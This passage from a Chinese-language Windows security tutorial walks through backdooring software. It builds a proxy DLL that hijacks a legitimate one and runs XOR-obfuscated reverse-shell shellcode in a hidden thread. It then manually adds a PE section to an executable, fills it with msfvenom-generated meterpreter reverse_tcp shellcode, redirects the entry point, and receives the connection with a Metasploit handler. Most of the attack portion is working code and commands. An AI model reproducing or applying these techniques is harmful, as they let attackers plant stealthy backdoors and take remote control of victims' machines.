编译工具并执行`GenEAT.exe -d ./lyshark.dll -c ./lyshark.c -n old_lyshark`执行后会生成`lyshark.c`文件，当读者传入参数是将自动生成`lyshark.dll`文件的导出表文件`lyshark.c`其劫持后名称为`old_lyshark`。
```C
int main(int argc, char* argv[])
{
    if (argc == 7)
    {
        if (!strcmp(argv[1], "-d") && !strcmp(argv[3], "-c") && !strcmp(argv[5], "-n"))
        {
            OpenPeFile(argv[2]);
            GenerateEAT(argv[4], argv[6]);
        }
    }
    return 0;
}
```

#### 1.13.3 实现劫持ShellCode注入

有前面的导出表DLL生成功能，那么实现劫持就变得很容易了，为了能够演示这种劫持技术，此处我们需要自行生成一个`lyshark.dll`以及一个`main.exe`程序。

先来创建一个`DLL`并导出两个函数，然后创建主程序动态的加载这个DLL，此DLL程序只包含了几个简单的计算功能。
```C
#include <Windows.h>

extern "C" int __declspec(dllexport)add(int x, int y)
{
  return x + y;
}

extern "C" int __declspec(dllexport)sub(int x, int y)
{
  return x - y;
}

extern "C" int __declspec(dllexport)mul(int x, int y)
{
  return x * y;
}

extern "C" int __declspec(dllexport)divs(int x, int y)
{
  return x / y;
}

BOOL APIENTRY DllMain(HANDLE handle, DWORD dword, LPVOID lpvoid)
{
  return true;
}
```
接着编译`main.cpp`程序并生成`main.exe`，生成程序后，将`lyshark.dll`放入同一个目录下即可，程序运行后会通过`LoadLibrary`加载`lyshark.dll`到自身，并通过`GetProcAddress`动态获取到`addFun`的函数地址，调用其函数实现加法计算；
```C
#include <stdio.h>
#include <Windows.h>

typedef int(*lpAdd)(int, int);
typedef int(*lpSub)(int, int);
typedef int(*lpMul)(int, int);
typedef int(*lpDiv)(int, int);

int main(int argc, char *argv[])
{
  HINSTANCE DllAddr;
  lpAdd addFun;

  DllAddr = LoadLibrary("lyshark.dll");

  addFun = (lpAdd)GetProcAddress(DllAddr, "add");
  if (NULL != addFun)
  {
    int res = addFun(100, 200);
    printf("结果: %d \n", res);
  }

  FreeLibrary(DllAddr);
  system("pause");
  return 0;
}
```

当读者编译好这两段程序后，请将其放入到同级目录下，运行`main.exe`则会看到输出计算结果，如下图所示；



通过运行劫持程序`GenEAT.exe`则读者会看到如下图所示的输出，此时打开`lyshark.c`则是我们的劫持DLL源代码文件；



为了保证后门的稳定性，此处我们实现了`XorEncodeDeCode`函数，该函数的作用是对一个存储在变量`buf`中的`ShellCode`进行加密，并输出加密后的结果。

首先，代码定义了一个名为`cCode`的字符数组，并将变量`StrPasswd`的值复制到了这个数组中。然后，使用一个`for`循环遍历`cCode`数组中的每个字符，将其与`Xor_Key`的乘积相加，并将结果存储回`Xor_Key`中。这样就得到了一个动态计算的密钥。

接下来，代码使用一个`for`循环遍历`buf`数组中的每个字节，并将其与`Xor_Key`进行异或运算。异或运算可以实现简单的加密和解密操作，这里用它来加密`buf`数组中存储的`ShellCode`。每次进行异或运算后将数据输出。
```C
#include <stdio.h>
#include <tchar.h>
#include <windows.h>

unsigned char buf[] =
"\xbf\x7f\x06\x7d\x30\xdb\xd9\xd9\x74\x24\xf4\x5e\x29\xc9"
"\xb1\x59\x31\x7e\x14\x03\x7e\x14\x83\xee\xfc\x9d\xf3\x81"
"\xd8\xee\xfc\x79\x19\x90\x75\x9c\x28\x82\xe2\xd4\x19\x12"
"\x60\xb8\x91\xd9\x24\x29\x9b\x22\xc7\xe6\x91\xfa\x53\x7a"
"\x0e\x33\xa4\xd7\x72\x52\x58\x2a\xa7\xb4\x61\xe5\xba\xb5"
"\xa6\xb3\xb1\x5a\x7a\x13\xb1\xf6\x6b\x10\x87\xca\x8a\xf6"
"\x83\x72\xf5\x73\x53\x06\x49\x7d\x84\x6d\x19\x65\x74\xfa"
"\xc2\xb5\x75\x2f\x77\x7c\x01\xf3\x31\xf4\xde\x80\xc3\xdc"
"\x2e\x69\xf2\x20\xfc\x54\x3a\xad\xfc\x91\xfd\x4e\x8b\xe9"
"\xfd\xf3\x8c\x2a\x7f\x28\x18\xac\x27\xbb\xba\x08\xd9\x68"
"\x5c\xdb\xd5\xc5\x2a\x83\xf9\xd8\xff\xb8\x06\x50\xfe\x6e"
"\x8f\x22\x25\xaa\xcb\xf1\x44\xeb\xb1\x54\x78\xeb\x1e\x08"
"\xdc\x60\x8c\x5f\x60\x89\x4e\x60\x3c\x1d\x82\xad\xbf\xdd"
"\x8c\xa6\xcc\xef\x13\x1d\x5b\x43\xdb\xbb\x9c\xd2\xcb\x3b"
"\x72\x5c\x9b\xc5\x73\x9c\xb5\x01\x27\xcc\xad\xa0\x48\x87"
"\x2d\x4c\x9d\x3d\x24\xda\xde\x69\x31\x9d\xb7\x6b\x42\x86"
"\x48\xe2\xa4\x98\x06\xa4\x78\x59\xf7\x04\x29\x31\x1d\x8b"
"\x16\x21\x1e\x46\x3f\xc8\xf1\x3e\x17\x65\x6b\x1b\xe3\x14"
"\x74\xb6\x89\x17\xfe\x32\x6d\xd9\xf7\x37\x7d\x0e\x60\xb7"
"\x7d\xcf\x05\xb7\x17\xcb\x8f\xe0\x8f\xd1\xf6\xc6\x0f\x29"
"\xdd\x55\x57\xd5\xa0\x6f\x23\xe0\x36\xcf\x5b\x0d\xd7\xcf"
"\x9b\x5b\xbd\xcf\xf3\x3b\xe5\x9c\xe6\x43\x30\xb1\xba\xd1"
"\xbb\xe3\x6f\x71\xd4\x09\x49\xb5\x7b\xf2\xbc\xc5\x7c\x0c"
"\x42\xe2\x24\x64\xbc\xb2\xd4\x74\xd6\x32\x85\x1c\x2d\x1c"
"\x2a\xec\xce\xb7\x63\x64\x44\x56\xc1\x15\x59\x73\x87\x8b"
"\x5a\x70\x1c\x3c\x20\xf9\xa3\xbd\xd5\x13\xc0\xbe\xd5\x1b"
"\xf6\x83\x03\x22\x8c\xc2\x97\x11\x9f\x71\xb5\x30\x0a\x79"
"\xe9\x43\x1f";

// 计算异或密钥对,并对ShellCode进行加解密
void XorEncodeDeCode(TCHAR* StrPasswd)
{
    TCHAR cCode[32] = { 0 };
    _tcscpy(cCode, StrPasswd);

    // 动态计算字符串生成密钥
    DWORD Xor_Key = 0;
    for (unsigned int x = 0; x < lstrlen(cCode); x++)
    {
        Xor_Key = Xor_Key * 4 + cCode[x];
    }

    // 加密ShellCode并输出
    int nLen = sizeof(buf) - 1;

    printf("unsigned char buf[] = \n\"");
    for (int count = 0; count < nLen; count++)
    {
        buf[count] = buf[count] ^ Xor_Key;
        printf("\\x%x", buf[count]);
        if (count % 15 == 0 && count != 0)
        {
            printf("\"\n\"");
        }
    }
    printf("\";\n");
}

int main(int argc, char *argv[])
{
    // 传入密钥加密数据
    XorEncodeDeCode("lyshark");

    system("pause");
    return 0;
}
```

代码使用`printf `函数输出当前字节的十六进制表示形式，为了美观起见，代码在输出时每输出15个字节就插入一个换行符，使得输出的结果分行显示。同时，代码还在每行输出前后添加了一些字符串格式化符号，以便将输出的结果转换为一个C语言风格的数组定义，输出效果如下图所示；



根据上述代码，我们可以写出如下导出语法，读者需要将如下DLL生成为`lyshark.dll`文件，并将原始的DLL文件改名为`old_lyshark.dll`。
```C
#include <stdio.h>
#include <tchar.h>
#include <windows.h>

#pragma comment(linker, "/EXPORT:add=old_lyshark.add,@1") 
#pragma comment(linker, "/EXPORT:divs=old_lyshark.divs,@2") 
#pragma comment(linker, "/EXPORT:mul=old_lyshark.mul,@3") 
#pragma comment(linker, "/EXPORT:sub=old_lyshark.sub,@4")

unsigned char buf[] =
"\xfc\x3c\x45\x3e\x73\x98\x9a\x9a\x37\x67\xb7\x1d\x6a\x8a\xf2\x1a"
"\x72\x3d\x57\x40\x3d\x57\xc0\xad\xbf\xde\xb0\xc2\x9b\xad\xbf"
"\x3a\x5a\xd3\x36\xdf\x6b\xc1\xa1\x97\x5a\x51\x23\xfb\xd2\x9a"
"\x67\x6a\xd8\x61\x84\xa5\xd2\xb9\x10\x39\x4d\x70\xe7\x94\x31"
"\x11\x1b\x69\xe4\xf7\x22\xa6\xf9\xf6\xe5\xf0\xf2\x19\x39\x50"
"\xf2\xb5\x28\x53\xc4\x89\xc9\xb5\xc0\x31\xb6\x30\x10\x45\xa"
"\x3e\xc7\x2e\x5a\x26\x37\xb9\x81\xf6\x36\x6c\x34\x3f\x42\xb0"
"\x72\xb7\x9d\xc3\x80\x9f\x6d\x2a\xb1\x63\xbf\x17\x79\xee\xbf"
"\xd2\xbe\xd\xc8\xaa\xbe\xb0\xcf\x69\x3c\x6b\x5b\xef\x64\xf8"
"\xf9\x4b\x9a\x2b\x1f\x98\x96\x86\x69\xc0\xba\x9b\xbc\xfb\x45"
"\x13\xbd\x2d\xcc\x61\x66\xe9\x88\xb2\x7\xa8\xf2\x17\x3b\xa8"
"\x5d\x4b\x9f\x23\xcf\x1c\x23\xca\xd\x23\x7f\x5e\xc1\xee\xfc"
"\x9e\xcf\xe5\x8f\xac\x50\x5e\x18\x0\x98\xf8\xdf\x91\x88\x78"
"\x31\x1f\xd8\x86\x30\xdf\xf6\x42\x64\x8f\xee\xe3\xb\xc4\x6e"
"\xf\xde\x7e\x67\x99\x9d\x2a\x72\xde\xf4\x28\x1\xc5\xb\xa1"
"\xe7\xdb\x45\xe7\x3b\x1a\xb4\x47\x6a\x72\x5e\xc8\x55\x62\x5d"
"\x5\x7c\x8b\xb2\x7d\x54\x26\x28\x58\xa0\x57\x37\xf5\xca\x54"
"\xbd\x71\x2e\x9a\xb4\x74\x3e\x4d\x23\xf4\x3e\x8c\x46\xf4\x54"
"\x88\xcc\xa3\xcc\x92\xb5\x85\x4c\x6a\x9e\x16\x14\x96\xe3\x2c"
"\x60\xa3\x75\x8c\x18\x4e\x94\x8c\xd8\x18\xfe\x8c\xb0\x78\xa6"
"\xdf\xa5\x0\x73\xf2\xf9\x92\xf8\xa0\x2c\x32\x97\x4a\xa\xf6"
"\x38\xb1\xff\x86\x3f\x4f\x1\xa1\x67\x27\xff\xf1\x97\x37\x95"
"\x71\xc6\x5f\x6e\x5f\x69\xaf\x8d\xf4\x20\x27\x7\x15\x82\x56"
"\x1a\x30\xc4\xc8\x19\x33\x5f\x7f\x63\xba\xe0\xfe\x96\x50\x83"
"\xfd\x96\x58\xb5\xc0\x40\x61\xcf\x81\xd4\x52\xdc\x32\xf6\x73"
"\x49\x3a\xaa\x0\x5c";

// 动态解密ShellCOde
void XorEncodeDeCode(TCHAR *StrPasswd)
{
    TCHAR cCode[32] = { 0 };
    _tcscpy(cCode, StrPasswd);

    // 动态计算字符串生成密钥
    DWORD Xor_Key;
    for (unsigned int x = 0; x < lstrlen(cCode); x++)
    {
        Xor_Key = Xor_Key * 4 + cCode[x];
    }

    // 加密ShellCode并放入到原始空间中
    int nLen = sizeof(buf) - 1;
    for (int i = 0; i<nLen; i++)
    {
        buf[i] = buf[i] ^ Xor_Key;
    }
}

HANDLE MyhThread = NULL;

DWORD WINAPI MyRun(LPVOID pParameter)
{
    // 解密ShellCode
    XorEncodeDeCode(L"lyshark");

    // 执行反弹
    __asm
    {
        mov eax, offset buf;
        jmp eax;
    }

    /*
    __asm
    {
    lea eax, offset buf;
    push eax;
    ret;
    }
    __asm
    {
    mov eax, offset buf;
    _emit 0xFF;
    _emit 0xE0;
    }
    */
}

BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
    if (dwReason == DLL_PROCESS_ATTACH)
    {
        // 禁用DLL的DLL_THREAD_ATTACH和DLL_THREAD_DETACH通知
        DisableThreadLibraryCalls(hModule);

        MyhThread = ::CreateThread(NULL, 0, &MyRun, 0, 0, 0);
    }

    return TRUE;
}
```

至此程序运行后则会首先执行我们的`ShellCode`代码，然后在执行原函数完成动态调用的功能；




### 1.14 手工插入ShellCode反弹后门

PE格式是 Windows下最常用的可执行文件格式,理解PE文件格式不仅可以了解操作系统的加载流程,还可以更好的理解操作系统对进程和内存相关的管理知识,而有些技术必须建立在了解PE文件格式的基础上,如文件加密与解密,病毒分析,外挂技术等，本次的目标是手工修改或增加节区，并给特定可执行程序插入一段`ShellCode`代码，实现程序运行自动反弹一个Shell会话。

#### 1.14.1 VA地址与FOA地址互转

首先我们先来演示一下内存VA地址与FOA地址互相转换的方式，通过使用`WinHEX`打开一个二进制文件，打开后我们只需要关注如下蓝色注释为映像建议装入基址，黄色注释为映像装入后的RVA偏移。



通过上方的截图结合PE文件结构图我们可得知`0000158B`为映像装入内存后的RVA偏移，紧随其后的`00400000`则是映像的建议装入基址，为什么是建议而不是绝对？别急后面慢来来解释。

通过上方的已知条件我们就可以计算出程序实际装入内存后的入口地址了，公式如下：
 - VA(实际装入地址) = ImageBase(基址) + RVA(偏移) => 00400000 + 0000158B = 0040158B

找到了程序的OEP以后，接着我们来判断一下这个`0040158B`属于那个节区，以.text节区为例，下图我们通过观察区段可知，第一处橙色位置`00000B44 (节区尺寸)`，第二处紫色位置`00001000 (节区RVA)`，第三处`00000C00 (文件对齐尺寸)`，第四处`00000400 (文件中的偏移)`，第五处`60000020 (节区属性)`。



得到了上方text节的相关数据，我们就可以判断程序的OEP到底落在了那个节区中，这里以.text节为例子，计算公式如下：

 - 虚拟地址开始位置：节区基地址 + 节区RVA => 00400000 + 00001000 = 00401000
 - 虚拟地址结束位置：text节地址 + 节区尺寸 => 00401000 + 00000B44 = 00401B44

经过计算得知 .text 节所在区间（401000 - 401B44） 你的装入VA地址`0040158B`只要在区间里面就证明在本节区中，此处的VA地址是在`401000 - 401B44`区间内的，则说明它属于.text节。

经过上面的公式计算我们知道了程序的OEP位置是落在了.text节，此时你兴致勃勃的打开x64DBG想去验证一下公式是否计算正确不料，尼玛！这地址根本不是400000开头啊，这是什么鬼？



上图中出现的这种情况就是关于随机基址的问题，在新版的VS编译器上存在一个选项是否要启用随机基址(默认启用)，至于这个随机基址的作用，猜测可能是为了防止缓冲区溢出之类的烂七八糟的东西。

为了方便我们调试，我们需要手动干掉它，其对应到PE文件中的结构为 IMAGE_NT_HEADERS -> IMAGE_OPTIONAL_HEADER -> DllCharacteristics 相对于PE头的偏移为90字节，只需要修改这个标志即可，修改方式 `x64：6081 改 2081` 相对于 `x86：4081 改 0081` 以X86程序为例，修改后如下图所示。



经过上面对标志位的修改，程序再次载入就能够停在`0040158B`的位置，也就是程序的OEP，接下来我们将通过公式计算出该OEP对应到文件中的位置。

 - .text(节首地址) = ImageBase + 节区RVA => 00400000 + 00001000 = 00401000
 - VA(虚拟地址) = ImageBase + RVA(偏移) => 00400000 + 0000158B = 0040158B
 - RVA(相对偏移) = VA - (.text节首地址) => 0040158B - 00401000 = 58B
 - FOA(文件偏移) = RVA + .text节对应到文件中的偏移 => 58B + 400 = 98B

经过公式的计算，我们找到了虚拟地址`0040158B`对应到文件中的位置是`98B`，通过WinHEX定位过去，即可看到OEP处的机器码指令了。



接着我们来计算一下.text节区的结束地址，通过文件的偏移加上文件对齐尺寸即可得到.text节的结束地址`400+C00= 1000`，那么我们主要就在文件偏移为(98B - 1000)在该区间中找空白的地方，此处我找到了在文件偏移为1000之前的位置有一段空白区域，如下图：



接着我么通过公式计算一下文件偏移为`0xF43`的位置，其对应到VA虚拟地址是多少，公式如下：

 - .text(节首地址) = ImageBase + 节区RVA => 00400000 + 00001000 = 00401000
 - VPK(实际大小) = (text节首地址 - ImageBase) - 实际偏移 => 401000-400000-400 = C00
 - VA(虚拟地址) = FOA(.text节) + ImageBase + VPK => F43+400000+C00 = 401B43

计算后直接X64DBG跳转过去，我们从`00401B44`的位置向下全部填充为90(nop)，然后直接保存文件。



再次使用WinHEX查看文件偏移为`0xF43`的位置，会发现已经全部替换成了90指令，说明计算正确。



到此文件偏移与虚拟偏移的转换就结束了，其实在我们使用X64DBG修改可执行文件指令的时候，X64DBG默认为我们做了上面的这些转换工作，其实这也能够解释为什么不脱壳的软件无法直接修改，因为X64DBG根本无法计算出文件偏移与虚拟偏移之间的对应关系，所以就无法保存文件了。

#### 1.14.2 新建节区并插入后门

经过了上面的学习相信你已经能够独立完成`FOA`与`VA`之间的互转了，接下来我们将实现在程序中插入新节区，并向新节区内插入一段能够反向连接的`ShellCode`代码，并保证插入后门的程序依旧能够正常运行不被干扰，为了能够更好的复习PE相关知识，此处的偏移全部手动计算不借助任何工具，请确保你已经掌握了FOA与VA之间的转换关系然后再继续学习。

首先我们的目标是新建一个新节区，我们需要根据`.text`节的内容进行仿写，先来看区段的书写规则：



如上图所示，一般情况下区段的总长度不可大于`40个字`节，其中`2E标志`着`PE区段`的开始位置，后面紧随其后的`7个字节`的区域为区段的名称，由于只有`7个字节`的存储空间故最多只能使用`6个字符`来命名，而第一处蓝色部分则为该节在内存中展开的虚拟大小，第二处蓝色部分为在文件中的实际大小，第一处绿色部分为该节在内存中的虚拟偏移，第二处绿色部分为文件偏移，而最后的黄色部分就是该节的节区属性。

既然知道了节区中每个成员之间的关系，那么我们就可以开始仿写了，仿写需要在程序中最后一个节的后面继续写，而该程序中的最后一个节是`.reloc`节，在`reloc`节的后面会有一大片空白区域，如下图：



如下图：我们仿写一个`.hack`节区，该节区虚拟大小为1000字节(蓝色一)，对应的实际大小也是1000字节(蓝色二)，节区属性为`200000E0`可读可写可执行，绿色部分是需要我们计算才能得到的，继续向下看。



接着我们通过公式计算一下.hack的虚拟偏移与实际偏移应该设置为多少，公式如下：

 - .hack 虚拟偏移：虚拟偏移(.reloc) + 虚拟大小(.hack) =>  00006000 + 00001000 = 00007000
 - .hack 实际偏移：实际偏移(.reloc) + 实际大小(.reloc) => 00003800 + 00000200 = 00003A00

经过公式推导我们可得知 `.hack`节，虚拟偏移应设置为`00007000` 实际偏移设置为`00003A00`节区长度为1000字节，将其填充到绿色位置即可，如下图：



最后在文件末尾，插入1000个0字节填充，以作为我们填充ShellCode的具体位置，1000个0字节的话WinHEX需要填充4096



到此其实还没结束，我们还落下了一个关键的地方，那就是在PE文件的开头，有一个控制节区数目的变量，此处因为我们增加了一个所以需要将其从`5`个改为`6`个，由于我们新增了`0x1000`的节区空间，那么相应的镜像大小也要加`0x1000` 如图黄色部分原始大小为`00007000`此处改为`00008000`即可。



打开X64DBG载入修改好的程序，会发现我们的.hack节成功被系统识别了，到此节的插入已经实现了。



接下来的工作就是向我们插入的节中植入一段可以实现反弹Shell会话的代码片段，你可以自己编写也可使用工具，此处为了简单起见我就使用黑客利器`Metasploit`生成反向ShellCode代码，执行命令：
```C
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' LHOST=192.168.1.30 LPORT=9999 -f c
```

关于命令介绍：-a指定平台架构，--platform指定攻击系统，-p指定一个反向连接shell会话，-b的话是去除坏字节，并指定攻击主机的IP与端口信息，执行命令后会生成一段有效攻击载荷。

为了保证生成的`ShellCode`可用性，你可以通过将生成的`ShellCode`加入到测试程序中测试调用效果，此处我就不测试了，直接贴出测试代码吧，你只需要将`buf[]`数组填充为上方的`Shell`代码即可。
```C
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE")

unsigned char buf[] = "";

typedef void(__stdcall *CODE) ();
int main()
{
    //((void(*)(void))&buf)();
    PVOID pFunction = NULL;
    pFunction = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(pFunction, buf, sizeof(buf));
    CODE StartShell = (CODE)pFunction;
    StartShell();
}
```
此时我们需要将上方生成的`ShellCode`注入到我们新加入的区段中，区段实际偏移是`0x3A00`，此处的二进制代码较多不可能手动一个个填写，机智的我写了一个小程序，即可完成自动填充，附上代码吧。
```C
#include <Windows.h>
#include <stdio.h>

unsigned char buf[] =
"\xdb\xda\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x56\xba\xd5\xe5\x72"
"\xb7\x31\x55\x18\x83\xed\xfc\x03\x55\xc1\x07\x87\x4b\x01\x45"
"\x68\xb4\xd1\x2a\xe0\x51\xe0\x6a\x96\x12\x52\x5b\xdc\x77\x5e"
"\x10\xb0\x63\xd5\x54\x1d\x83\x5e\xd2\x7b\xaa\x5f\x4f\xbf\xad"
"\xe3\x92\xec\x0d\xda\x5c\xe1\x4c\x1b\x80\x08\x1c\xf4\xce\xbf"
"\xb1\x71\x9a\x03\x39\xc9\x0a\x04\xde\x99\x2d\x25\x71\x92\x77"
"\xe5\x73\x77\x0c\xac\x6b\x94\x29\x66\x07\x6e\xc5\x79\xc1\xbf"
"\x26\xd5\x2c\x70\xd5\x27\x68\xb6\x06\x52\x80\xc5\xbb\x65\x57"
"\xb4\x67\xe3\x4c\x1e\xe3\x53\xa9\x9f\x20\x05\x3a\x93\x8d\x41"
"\x64\xb7\x10\x85\x1e\xc3\x99\x28\xf1\x42\xd9\x0e\xd5\x0f\xb9"
"\x2f\x4c\xf5\x6c\x4f\x8e\x56\xd0\xf5\xc4\x7a\x05\x84\x86\x12"
"\xea\xa5\x38\xe2\x64\xbd\x4b\xd0\x2b\x15\xc4\x58\xa3\xb3\x13"
"\x7c\x95\xa3\xb2\x7e\x89\xb4\x96";

int main()
{
    HANDLE hFile = NULL;
    DWORD dwNum = 0;
    LONG FileOffset;
    FileOffset = 0x3A00;             // 文件中的偏移

    hFile = CreateFile(L"C:\\setup.exe", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ,
        NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    SetFilePointer(hFile, FileOffset, NULL, FILE_BEGIN);
    WriteFile(hFile, buf, sizeof(buf), &dwNum, NULL);
    CloseHandle(hFile);
    return 0;
}
```

通过VS编译器编译代码并运行，窗口一闪而过就已经完成填充了，直接打开`WinHEX`工具定位到`0x3A00`发现已经全部填充好了。



**********

填充完代码以后，接着就是执行这段代码了，我们的最终目标是程序正常运行并且成功反弹Shell会话，但问题是这段代码是交互式的如果直接植入到程序中那么程序将会假死，也就暴漏了我们的行踪，这里我们就只能另辟蹊径了，经过我的思考我决定让这段代码成为进程中的一个子线程，这样就不会相互干扰了。

于是乎我打开了微软的网站，查询了一下相关API函数，最终找到了一个`CreateThread()`函数可以在进程中创建线程，此处贴出微软对该函数的定义以及对函数参数的解释。
```C
HANDLE WINAPI  CreateThread(
    _In_opt_ LPSECURITY_ATTRIBUTES lpThreadAttributes,
    _In_ SIZE_T dwStackSize,
    _In_ LPTHREAD_START_ROUTINE lpStartAddress,
    _In_opt_ __drv_aliasesMem LPVOID lpParameter,
    _In_ DWORD dwCreationFlags,
    _Out_opt_ LPDWORD lpThreadId
    );
```

这个API函数的参数解析如下所示；

 - lpThreadAttributes 线程内核对象的安全属性,默认为NULL
 - dwStackSize 线程栈空间大小,传入0表示使用默认大小1MB
 - lpStartAddress 新线程所执行的线程函数地址,指向ShellCode首地址
 - lpParameter 此处是传递给线程函数的参数,我们这里直接填NULL
 - dwCreationFlags 为0表示线程创建之后立即就可以进行调度
 - lpThreadId 返回线程的ID号,传入NULL表示不需要返回该线程ID号

由于我们需要写入机器码，所以必须将`CreateThread`函数的调用方式转换成汇编格式，我们打开`X64DBG`找到我们的区段位置，可以看到填充好的`ShellCode`代码，其开头位置为`00407000`，如下所示：



接着向下找，找到一处空旷的区域，然后填入`CreateThread()`创建线程函数的汇编格式，填写时需要注意调用约定和`ShellCode`的起始地址。



接着我们需要使用一条`Jmp指令`让其跳转到原始位置执行原始代码，这里的原始OEP位置是`0040158B`我们直接JMP跳转过去就好，修改完成后直接保存文件。



最后一步修改程序默认执行位置，我们将原始位置的`0040158B`改为`00407178`这里通过WinHEX修改的话直接改成`7178`就好，如下截图：



通过MSF控制台创建一个侦听端口，执行如下命令即可，此处的IP地址与生成的`ShellCode`地址应该相同。
```C
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.30
msf6 exploit(multi/handler) > set lport 9999
msf6 exploit(multi/handler) > exploit
```

至此当读者运用这个被植入了后门的可执行程序时，则会发现目标已经上线了，而源程序仍然可以被正常执行，至此我们的后门植入工作也就算完成了；

#### 1.14.3 新建节并插入DLL

首先老样子，我们先来到PE节表位置处，并仿写一个`.hack`的节，该节大小为`0x1000`字节，在仿写前我们需要先来计算出`.hack`的虚拟偏移与实际偏移，先来查询一下当前节表结构，如下:



接着我们通过公式计算一下.hack的虚拟偏移与实际偏移应该设置为多少，注意内存对齐，如加上2000是因为要遵循内存对齐，公式如下：

 - .hack 虚拟偏移：虚拟偏移(.rsrc) + 虚拟大小(.hack) => 0x0001B000 + 0x00001000 + 2000 = 1E000
 - .hack 实际偏移：实际偏移(.rsrc) + 实际大小(.rsrc) => 0x00007800 + 0x00002600 = 9E00

经过公式推导我们可得知要仿写`.hack`节，虚拟偏移应设置为`1E000`实际偏移设置为`9E00`节区长度为`0x1000`字节，将其填充到绿色位置即可，此外还需要注意节属性必须为`E00000E0`可读可写属性，如下图：



使用WinHEX在文件末尾添加填充0字节数据，填充长度为`4096`，我们的文件偏移为`0x9E00`，并且跳转到`0xF0`处将红色的06改为07，并将底部的`1e000 + 1000`修正为`1F000` 此时我们的`.hack`节添加完成，其对应的虚拟偏移为`0x0001E000`实际偏移为`0x00009E00`长度都是`0x1000`字节。



接着使用工具找到导入表的位置，如下导入表位置`0x00006DE0` 长度是`0x00000050`



我们使用WinHex定位过去，将其拷贝一份，选中右键`复制选快`->`十六进制复制即可`



接着定位到`0x9E00`也就是.hack节的开头位置，将其复制到这里来，这里的留白位置就是我们需要添加进来的IID数组暂时为空。



先来把仿写的位置标注上序号，这里为大家具体解释一下原因，以及为什么这样来写。

> 首先红色位置代表的字段是: OriginalFirstThunk 其指向中间变量`FOA = 9E80`而中间变量则需要指向一个Image_Thunk_Data结构，这里我们使用`FOA = 9E90`来模仿，该结构前两个字节为hInt值默认为0，后面则是一个导入的函数字符串。
> 绿色位置代表的是需要导入的DLL文件名，此处没有中间值，可以直接指向字符串。
> 棕色部分代表的是FirstThunk 其同样需要指向Image_Thunk_Data结构 `FOA = 9E90`

我们来转换一下，具体的地址：

> 红色OriginalFirstThunk需要指向FOA=9E80也就是RVA=0x0001E080 ,然后9E80里面需要再次指向FOA=9E90也就是指向RVA=0x0001E090，9E90里面存储的是MsgBox 你的导入函数字符串。
> 绿色 DllName 则直接指向FOA=9EB0 也就是指向RVA=0x0001E0B0 里面是导入DLL名称，此处是 lyshark.dll
> 棕色 FirstThunk 则需要指向FOA=9ED0 也就是指向 RVA= 0x0001E0D0 而9ED0则需要指向FOA=9E90也就是指向RVA=0x0001E090



由于我们增加了导入表，增加了一个结构，所以要跳转到`170`处修正大小`30+20=50`,并将导入表地址修正为`FOA = 0x9E00`也就是`RVA =0x0001E000`



最后接触输入表绑定状态，也就是将`1B0-1B8`处的内容全部清0即可。



当一切准备就绪以后，我们只需要编写一个DLL动态链接库，然后将该程序放入同级目录下，当程序运行后即可实现弹窗，当然读者可根据该原理自行发挥，让其具备有反弹后门的功能；
```C
#include <Windows.h>
#include <stdio.h>

extern "C"__declspec(dllexport) void MsgBox()
{
    MessageBox(0, "hello lyshark", "inject", MB_OK);
}

DWORD WINAPI ThreadShow(LPVOID lpParameter)
{
    char szPath[MAX_PATH] = { 0 };
    char szBuf[1024] = { 0 };

    GetModuleFileName(0, szPath, MAX_PATH);
    sprintf(szBuf, "路径: %s ---> PID: %d ", szPath, GetCurrentProcessId());
    MessageBox(0, szBuf, 0, 0);

    return 0;
}

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    if (ul_reason_for_call == DLL_PROCESS_ATTACH)
    {
        CreateThread(0, 0, ThreadShow, 0, 0, 0);
    }

    return TRUE;
}
```

### 1.15 自实现GetProcAddress

在正常情况下，要想使用`GetProcAddress`函数，需要首先调用`LoadLibraryA`函数获取到`kernel32.dll`动态链接库的内存地址，接着在调用`GetProcAddress`函数时传入模块基址以及模块中函数名即可动态获取到特定函数的内存地址，但在有时这个函数会被保护起来，导致我们无法直接调用该函数获取到特定函数的内存地址，此时就需要自己编写实现`LoadLibrary`以及`GetProcAddress`函数，该功能的实现需要依赖于`PEB`线程环境块，通过线程环境块可遍历出`kernel32.dll`模块的入口地址，接着就可以在该模块中寻找`GetProcAddress`函数入口地址，当找到该入口地址后即可直接调用实现动态定位功能。

首先通过`PEB/TEB`找到自身进程的所有载入模块数据，获取`TEB`也就是线程环境块。在编程的时候`TEB`始终保存在寄存器 `FS` 中。

```C
0:000> !teb
TEB at 00680000
    ExceptionList:        008ff904
    StackBase:            00900000
    StackLimit:           008fc000
    RpcHandle:            00000000
    Tls Storage:          0068002c
    PEB Address:          0067d000

0:000> dt _teb 00680000
ntdll!_TEB
   +0x000 NtTib            : _NT_TIB
   +0x01c EnvironmentPointer : (null) 
   +0x020 ClientId         : _CLIENT_ID
   +0x028 ActiveRpcHandle  : (null) 
   +0x02c ThreadLocalStoragePointer : 0x0068002c Void
   +0x030 ProcessEnvironmentBlock : 0x0067d000 _PEB      // 偏移为30,PEB
```
从该命令的输出可以看出，`PEB` 结构体的地址位于 `TEB` 结构体偏移`0x30` 的位置，该位置保存的地址是 `0x0067d000`。也就是说，`PEB` 的地址是 `0x0067d000`，通过该地址来解析 `PEB`并获得 `LDR`结构。
```C
0:000> dt nt!_peb 0x0067d000
ntdll!_PEB
   +0x000 InheritedAddressSpace : 0 ''
   +0x001 ReadImageFileExecOptions : 0 ''
   +0x002 BeingDebugged    : 0x1 ''
   +0x003 BitField         : 0x4 ''
   +0x003 ImageUsesLargePages : 0y0
   +0x003 IsProtectedProcess : 0y0
   +0x003 IsImageDynamicallyRelocated : 0y1
   +0x003 SkipPatchingUser32Forwarders : 0y0
   +0x003 IsPackagedProcess : 0y0
   +0x003 IsAppContainer   : 0y0
   +0x003 IsProtectedProcessLight : 0y0
